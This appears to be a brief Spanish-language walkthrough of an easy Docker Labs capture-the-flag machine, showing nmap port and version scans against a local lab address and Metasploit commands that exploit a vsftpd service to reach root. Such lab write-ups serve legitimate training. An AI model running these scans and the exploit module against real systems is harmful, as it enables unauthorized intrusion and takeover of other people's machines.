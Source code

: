 # Firsthacking

Dificultad: Muy Facil
Tecnicas: Searchsploit - msfconsole
Pagina: Docker labs
Estado: Listo

# 

```bash
Lo primero que hacemos es ver q puertos están abiertos 

nmap -p- -—open —min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allport
```

![image.png](image.png)

```bash
Luego tiramos unos script basicos y buscamos las versiones de los puertos abiertos 

nmap -p21 -sCV -oN targeted 172.17.0.2
```

![image.png](image%201.png)

```
Vamos a usar msfconsole y searchsploit 

search vsftp
use 1
show options
set RHOSTS $ipvictima
run
```

![image.png](image%202.png)

![image.png](image%203.png)

![image.png](image%204.png)

```bash
Somos root

```